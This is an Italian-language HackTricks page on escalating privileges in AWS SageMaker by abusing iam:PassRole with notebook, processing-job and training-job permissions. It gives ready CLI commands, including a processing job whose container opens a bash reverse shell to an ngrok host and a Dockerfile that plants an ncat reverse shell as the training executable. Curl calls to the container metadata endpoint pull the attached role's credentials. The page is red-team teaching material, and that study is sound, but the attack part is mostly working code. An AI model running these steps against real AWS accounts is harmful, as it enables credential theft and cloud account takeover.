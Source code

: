 # AWS - Sagemaker Privesc

## AWS - Sagemaker Privesc

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

### `iam:PassRole` , `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Inizia a creare un notebook con il ruolo IAM ad esso associato:
```bash
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
La risposta dovrebbe contenere un campo `NotebookInstanceArn`, che conterrà l'ARN della nuova istanza di notebook creata. Possiamo quindi utilizzare l'API `create-presigned-notebook-instance-url` per generare un URL che possiamo utilizzare per accedere all'istanza di notebook una volta che è pronta:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Naviga all'URL con il browser e clicca su \`Open JupyterLab\` nella parte superiore destra, poi scorri verso il basso alla scheda “Launcher” e sotto la sezione “Other”, clicca sul pulsante “Terminal”.

Ora è possibile accedere alle credenziali dei metadati del ruolo IAM.

**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker specificato.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Se ci sono **notebook Jupyter già in esecuzione** su di esso e puoi elencarli con `sagemaker:ListNotebookInstances` (o scoprirli in qualsiasi altro modo). Puoi **generare un URL per essi, accedervi e rubare le credenziali come indicato nella tecnica precedente**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker attaccato.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un attaccante con tali permessi può far **eseguire a sagemaker un processingjob** con un ruolo sagemaker attaccato. L'attaccante può indicare la definizione del contenitore che verrà eseguito in un **istanza di account ECS gestita da AWS**, e **rubare le credenziali del ruolo IAM attaccato**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker specificato.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un attaccante con questi permessi sarà in grado di creare un lavoro di addestramento, **eseguendo un contenitore arbitrario** su di esso con un **ruolo allegato**. Pertanto, l'attaccante sarà in grado di rubare le credenziali del ruolo.

{% hint style="warning" %}
Questo scenario è più difficile da sfruttare rispetto al precedente perché è necessario generare un'immagine Docker che invierà la rev shell o le credenziali direttamente all'attaccante (non è possibile indicare un comando di avvio nella configurazione del lavoro di addestramento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impatto Potenziale:** Privesc al ruolo di servizio sagemaker specificato.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un attaccante con questi permessi sarà (potenzialmente) in grado di creare un **lavoro di addestramento degli iperparametri**, **eseguendo un contenitore arbitrario** su di esso con un **ruolo allegato**.\
_Non ho sfruttato a causa della mancanza di tempo, ma sembra simile agli exploit precedenti, sentiti libero di inviare una PR con i dettagli dello sfruttamento._

## Riferimenti

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos github.

</details>
{% endhint %}
